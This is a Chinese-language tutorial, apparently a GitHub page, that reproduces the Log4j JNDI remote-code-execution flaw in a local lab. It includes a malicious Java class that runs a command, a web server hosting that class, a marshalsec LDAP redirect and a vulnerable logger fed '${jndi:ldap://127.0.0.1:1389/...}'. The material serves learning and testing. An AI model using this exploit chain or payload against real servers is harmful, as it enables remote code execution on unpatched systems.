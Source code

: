 需要的环境:

- java 1.8.0
- python3

# Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。

这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

```
python3 -m http.server 8100

```

```bash

mrgaogang@mrgaogang-MB0 java % python3 -m http.server 8100
Serving HTTP on 0.0.0.0 port 8100 (http://0.0.0.0:8100/) ...

127.0.0.1 - - [28/Feb/2022 22:07:12] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [28/Feb/2022 22:07:15] "GET /Exploit.class HTTP/1.1" 200 -


```

然后用[marshalsec](https://github.com/mbechler/marshalsec) IDAP服务，项目地址：[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

```
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"

```

```bash

Listening on 0.0.0.0:1389
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit2 redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for  redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class



```
漏洞类

```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class LogTest {
    private static final Logger logger = LogManager.getLogger(LogTest.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/aaaaaaa}");
    }
}


```

最后运行LogTest下面的main
